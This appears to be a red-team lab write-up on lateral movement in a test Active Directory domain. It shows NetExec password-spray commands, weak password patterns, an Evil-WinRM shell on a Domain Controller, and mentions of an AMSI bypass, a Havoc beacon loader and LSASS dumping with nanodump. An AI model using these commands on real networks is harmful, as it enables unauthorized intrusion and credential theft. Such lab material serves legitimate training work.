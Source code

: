 # 5 - Lateral Movement

# Password Spray & Weak Credential Exploitation

Password spraying is a low-noise, high-success technique that tests one password across many users, often exploiting common patterns and weak password policies.

## Usernames list
- Usernames were extracted based on Havoc's BOF `domainenum` and have been saved for convenience at:
```
/home/kali/password_spray/usernames.txt
```

![image](https://github.com/user-attachments/assets/deeff09c-1623-4639-9b0e-6dfb33bff1ee)


## Password Policy
Before performing any password spray, it's critical to understand the domain's account lockout policy. Spraying without this knowledge can trigger 
- Account lockouts
- User complaints
- Blue team alerts
- Immediate detection of your presence

The Havoc's BOF `dcenum`, which we already used on basic enumeration, can help us to check the Domain Password Policy:

![image](https://github.com/user-attachments/assets/f52a30cd-5351-4db4-8127-5154f088b5c3)


# Common Password Patterns
Many users follow predictable patterns when creating passwords. Some of the most abusable formats include:
- 📆 MonthYear → March2024
- 🌤 SeasonYear → Summer2025!
- 📅 DayDate → Tuesday23!
- 💀 Leetspeak → L@bl0cal, P@ssw0rd123, Adm1n!2024

These are often overlooked by defenders but easily guessed by attackers.

- A password list `passwords.txt` with weak/common credentials was previously created and located at:
```
/home/kali/password_spray/passwords.txt
```

## Netexec 1 - One Password for All Users
Run a password spray using NetExec:
```bash
cd ~/password_spray/
```
and then...
```
netexec smb 10.10.X.10 -u 'usernames.txt' -p 'L@bl0cal' -d lab.local -t 5 --continue-on-success --dns-tcp --dns-server 10.10.X.10 --log one_for_all
```
> - Sweeps across the subnet using one weak password
> - Identifies any accounts that reused `L@bl0cal`
> - Ideal first strike — low risk of lockout

![image](https://github.com/user-attachments/assets/dc1f1de3-db2e-4ec0-a77a-8dec589ae5af)

### Test Also with:
> - `1g2w3e4r`
> - `!@#$%^&*`
> - `1qaz2wsx`
> - `!QAZ2wsx`

## Netexec 2 - Full Spray with Password List
```bash
netexec smb 10.10.X.10 -u 'usernames.txt' -p 'passwords.txt' -d lab.local -t 5 --continue-on-success --dns-tcp --dns-server 10.10.X.10 --log pass_sweep
```
> - Tests each password in the list against every user
> - Be cautious of account lockout policies: `try to space attempts over time`

![image](https://github.com/user-attachments/assets/591afcfd-b95d-4e36-b7ea-76e538b39646)


Once done, you can confirm the results using `cat` and `grep` commands:
```bash
cat pass_sweep | grep Pwn3d!
```

![image](https://github.com/user-attachments/assets/07e8b1b2-0e0b-412d-aa21-d1e12f0aa8fe)

## Elevated Remote Shell via Evil-WinRM

For targets with `WinRM` enabled:
```
evil-winrm -i 10.10.X.10 -u svc_exchange  -p 1q2w3e4r
```

Executing the command above, we gain shell access on the Domain Controller with a Full PowerShell session (high-integrity context).

Using [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) we can do:
- File upload/download
- Script execution
- Live command interaction

![image](https://github.com/user-attachments/assets/0fccb518-c85f-47a9-997c-49f8324487a1)


Let's deploy an elevated Havoc beacon on the Domain Controller server:
1. Execute the AMSI bypass script line-by-line
2. Deploy our obfuscated `.ps1` loader

This gave us a new high-privileged Beacon on the most critical asset in the network.

> - With a fully elevated Beacon now running on the Domain Controller, we gain access to native post-exploitation modules within Havoc, including BOFs like `nanodump`.  
> - Nanodump is a Beacon Object File that functions similarly to Mimikatz: it dumps the LSASS memory safely and stealthily, allowing credential extraction without touching the disk.  
> - However, since we've already performed a full `NTDS.dit` hash dump using Impacket's `secretsdump.py`, dumping LSASS again would be redundant.  

Still, it's important to note that `nanodump` works reliably from an elevated Beacon, and in scenarios without cert access or full hash dumps, it would be a powerful alternative to extract credentials in-memory.



